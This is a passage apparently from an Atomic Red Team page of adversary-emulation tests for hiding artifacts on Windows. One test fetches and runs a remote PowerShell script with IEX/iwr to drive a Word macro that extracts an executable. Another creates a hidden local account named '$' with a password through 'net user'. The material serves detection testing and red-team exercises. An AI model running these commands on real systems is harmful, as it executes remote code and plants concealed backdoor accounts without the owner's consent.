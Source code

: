 ```powershell
$macro = [System.IO.File]::ReadAllText("PathToAtomicsFolder\T1564\src\T1564-macrocode.txt")
$macro = $macro -replace "aREPLACEMEa", "PathToAtomicsFolder\T1564\bin\extractme.bin"
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroCode "$macro" -officeProduct "Word" -sub "Extract" -NoWrap
```

#### Cleanup Commands:

```powershell
Remove-Item "$env:TEMP\extracted.exe" -ErrorAction Ignore
```

#### Dependencies: Run with `powershell`!

##### Description: Microsoft Word must be installed

##### Check Prereq Commands:

```powershell
try {
  New-Object -COMObject "Word.Application" | Out-Null
  Stop-Process -Name "winword"
  exit 0
} catch { exit 1 }
```

##### Get Prereq Commands:

```powershell
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
```

<br/>
<br/>

## Atomic Test #2 - Create a Hidden User Called "$"

Creating a user with a username containing "$"

**Supported Platforms:** Windows

**auto_generated_guid:** 2ec63cc2-4975-41a6-bf09-dffdfb610778

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
net user $ ATOMIC123! /add /active:yes
```

#### Cleanup Commands:

```cmd
net user $ /DELETE 2>&1
```
